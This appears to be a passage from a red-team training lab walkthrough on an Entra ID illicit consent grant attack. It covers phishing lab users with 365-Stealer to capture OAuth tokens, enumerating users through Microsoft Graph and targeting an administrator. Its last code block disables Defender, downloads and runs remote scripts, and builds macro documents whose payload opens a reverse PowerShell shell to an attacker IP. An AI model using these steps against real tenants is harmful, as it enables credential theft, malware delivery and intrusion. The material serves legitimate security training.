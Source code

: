 # Illicit Consent Grant attack

**Register an application**

Entra ID -> App Registrations and click on New registration

Enter the Name of the application, choose 'Accounts in any organizational directory (Any Entra ID directory - Multitenant)'

<figure><img src="https://g37sys73m.gitbook.io/~gitbook/image?url=https%3A%2F%2F1846927083-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-Mj9GKP_mf1AnaApJEIA%252Fuploads%252FNGD35U8Z7XjJiZM27NNh%252Fimage.png%3Falt%3Dmedia%26token%3De6cfcac8-8089-4f4a-91e6-9da0fad11b42&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=d9a449f9&#x26;sv=2" alt=""><figcaption></figcaption></figure>

Go to the 'Certificates & Secrets' blade of the application you registered, create a new client secret and copy it before browsing away from the page.

<figure><img src="https://g37sys73m.gitbook.io/~gitbook/image?url=https%3A%2F%2F1846927083-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-Mj9GKP_mf1AnaApJEIA%252Fuploads%252FM8i92Xu3rA4LvzWitNir%252Fimage.png%3Falt%3Dmedia%26token%3Da7681c0b-a24e-4e14-a3c3-d43620ff4ccd&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=894828b4&#x26;sv=2" alt=""><figcaption></figcaption></figure>

Finally, go to the 'API permissions' blade and add the 'user.read' and 'User.ReadBasic.All' for the Microsoft Graph.

<figure><img src="https://g37sys73m.gitbook.io/~gitbook/image?url=https%3A%2F%2F1846927083-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-Mj9GKP_mf1AnaApJEIA%252Fuploads%252Fx9sdtnVUXhq8uejgG29Q%252Fimage.png%3Falt%3Dmedia%26token%3D4f96af62-a11e-46da-b5aa-546cb9c859e0&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=9f05dbcf&#x26;sv=2" alt=""><figcaption></figcaption></figure>

Go to the OverView blade and note Application (Client) ID

**Set the 365-stealer config using CLI**

```batch
C:\xampp\htdocs\365-Stealer>python 365-Stealer.py --set-config

[snip]


 Welcome to 365-Stealer Configuration.

 Client ID ==> e06c6a0c-27bc-433a-b06e-5ef5ab0530af
 Client Secret ==> am0ZV1a7xms6nW_AwMqAE~~kco1nNcBc.L
 Redirect Url ==> https://172.16.150.X/login/authorized
 Redirect Url After Stealing ==>
 Macros File Path ==>
 OneDrive Extensions ==>
 Delay ==> 1
[+] 365-Sealer Configuration set successfully!
[snip]

Run the tool:
C:\xampp\htdocs\365-Stealer>python 365-Stealer.py --run-app

[snip]
```

Connecting to MSGraph

```powershell
$Token =  'eyJ0eX..'
$URI = 'https://graph.microsoft.com/v1.0/users'

$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token" 
    }
}
(Invoke-RestMethod @RequestParams).value 
```

#### Consent and Permissions <a href="#consent-and-permissions" id="consent-and-permissions"></a>

* Applications can ask users for permissions to access their data. For example, for basic sign-in.
* If allowed, a normal user can grant consent only for "Low Impact" permissions. In all other cases, admin consent is required.
* GA, Application Administrator, Cloud Application Administrator and a custom role including 'permission to grant permissions to applications' can provide tenant wide consent.
* Consent policies can be set for all users
* Do not allow user consent
* Allow user consent for apps from verified publishers, for selected permissions - Only for "Low Impact" permissions for apps from same tenant and verified publisher.
* Allow user consents for all apps - Allows consent for apps from other tenants and unverified publishers for Low Impact permissions. (Default)
* Custom app consent policy.
* 'Allow user consent for all apps' is interesting and abusable!

**Consent and Permissions - Low Impact Permissions**

* Only the permissions that don't need admin consent can be classified as low impact.
* Permissions required for basic sign-in are openid, profile, email, `User.Read` and `offline_access`.
* That means, if an organization allows user consent for all apps, an employee can grant consent to an app to read the above from their profile.
* There are some very interesting low impact permissions. For example: `User.ReadBasic.All` that allows the app to read display name, first and last name, email address, open extensions and photo for all the users!

#### Illicit Consent Grant <a href="#illicit-consent-grant" id="illicit-consent-grant"></a>

* Register a Multitenant application `studentx` in `defcorpextcontractors` tenant.
* Provide the Redirect URI where you would like to receive tokens. In the lab, it will be the student VM[https://172.16.151.X/login/authorized](https://172.16.151.x/login/authorized) (or 172.16.150.X or 172.16.152.X depending on your location)
* Go to the 'Certificates & secrets' blade and create new Client secret. Copy the client secret before browsing away from the page.
* Go to the 'API permissions' blade and add the following Delegated permissions for Microsoft Graph: `user.read`, `User.ReadBasic.All`

> Note: In case we want to use Access tokens, following config is required - In the 'Authentication' option of the `studentx` app, check 'Access tokens (used for implicit flows)' and click on 'Save'. We will use Refresh token so no configuration is required.

**Phishing**

* We have user privilege access to the `defcorphq` tenant. Check if users are allowed to consent to apps.
* Use Azure Portal or the below command from the AzureAD Preview module: `(GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole`
* If the output of above is 'ManagePermissionGrantsForSelf.microsoftuser-default-legacy', that means users can consent for all apps!
* In a real assessment, we simply need to try to know.
* Let's use 365-stealer ([https://github.com/AlteredSecurity/365-Stealer](https://github.com/AlteredSecurity/365-Stealer)) to abuse the consent grant settings!
* Please note that the attack can be executed using the o365 toolkit ([https://github.com/mdsecactivebreach/o365-attack-toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)) as well. But due to some limitations in the lab, we are not using it.
* Run xampp Control Panel (Run as administrator) and start Apache on the student VM.
* Copy the '365-stealer' directory from C:\AzAD\Tools to C:\xampp\htdocs to capture tokens returned by Entra ID.
* Using the '365-Stealer Configuration' button , configure CLIENTID, REDIRECTURL and CLIENTSECRET
* Click on 'Run 365-Stealer' to run the tool.
* Browse to[https://localhost](https://localhost/) using an incognito window and click on 'Read More' in the web page. This gives you the phishing link that is to be sent to the target.
* We need to find a way to send the link to targets. We can abuse applications that allow us to contact users in the target organization.
* We can find applications running on the `defcorphq` tenant by sub-domain recon.
* Use MicroBurst to find the applications. We can add permutations like career, hr, users, file, backup to the permuations.txt used by MicroBurst etc.

Copy

```batch
. C:\\AzAD\\Tools\\MicroBurst\\Misc\\Invoke-EnumerateAzureSubDomains.ps1
Invoke-EnumerateAzureSubDomains -Base defcorphq -Verbose
```

* We can also assume that the[https://defcorphqcareer.azurewebsites.net](https://defcorphqcareer.azurewebsites.net/) application is known as a contractor may have some existing knowledge of the target.

![](https://g37sys73m.gitbook.io/~gitbook/image?url=https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F3d7e6138-63c1-42d7-94c9-f77ae6717fdb%2Fcac02694-0e96-4b74-a9a8-1e0c11974079%2Fimage.png\&width=768\&dpr=4\&quality=100\&sign=be5760e5\&sv=2)image.png

* Wait for couple of minutes and browse to [http://localhost:82/365-Stealer/yourvictims/](http://localhost:82/365-Stealer/yourvictims/) on the attacking machine to get tokens for victims who click on the phishing link.
* Use the access token with the Graph API to list other users in the tenant.
* Note that only the permissions that we requested earlier are available with the access token. We can list all the users thanks to `User.ReadBasic.All`

Copy

```powershell
$Token = 'eyJ0eXAiOiJK...'
$URI = '<https://graph.microsoft.com/v1.0/users>'

$RequestParams = @{
	Method = 'GET'
	Uri = $URI
	Headers = @{
		'Authorization' = "Bearer $Token"
	}
}

(Invoke-RestMethod @RequestParams).value
```

* We need to target an Application Administrator to grant consent for better permissions.
* Ideally, we have to target all the users. For the lab, we can use our earlier enumeration that Application Administrator role is assigned to [markdwalden@defcorphq.onmicrosoft.com](mailto:markdwalden@defcorphq.onmicrosoft.com)
* We need to register a new app (or modify existing one) and now request permissions that need admin consent - `mail.read`, `notes.read.all`, `mailboxsettings.readwrite`, `files.readwrite.all`, `mail.send`
* Generate a new link using 'Read More' on[https://localhost](https://localhost/) and send an email to the user containing that link (Remember to change the client ID if you register a new application)
* Once the user simulation grants consent, we will get the access token of the application administrator.
* Using the access token of application administrator, we can use 365-stealer to upload macro infested doc files to the user's OneDrive.
* The user simulation will open these macro infested word files and execute the macro.
* A licensed version of Office 365 is available on 172.16.1.250 to create doc files

Copy

```powershell
$passwd = ConvertTo-SecureString "ForCreatingWordDocs@123" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("officevm\\administrator", $passwd)
$officeVM = New-PSSession -ComputerName 172.16.1.250 -Credential $creds
Enter-PSSession -Session $officeVM

Set-MpPreference -DisableRealtimeMonitoring $true 
IEX (New-Object Net.Webclient).downloadstring("<http://172.16.150.43:82/Out-Word.ps1>")
Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('<http://172.16.150.43:82/Invoke-PowerShellTcp.ps1>');Power -Reverse -IPAddress 172.16.150.43 -Port 4444" -OutputFile student43.doc 
exit

Copy-Item -FromSession $officeVM -Path C:\\Users\\Administrator\\Documents\\student43.doc -Destination C:\\AzAD\\Tools\\student43.doc
```

* Start a listener on the student VM
* On the student VM, use 365-stealer webconsole or CLI to upload the doc to OneDrive of [MarkDWalden@defcorphq.onmicrosoft.com](mailto:MarkDWalden@defcorphq.onmicrosoft.com)

```batch
python C:\\xampp\\htdocs\\365-Stealer\\[365-Stealer.py](<http://365-stealer.py/>) --refresh-us
```
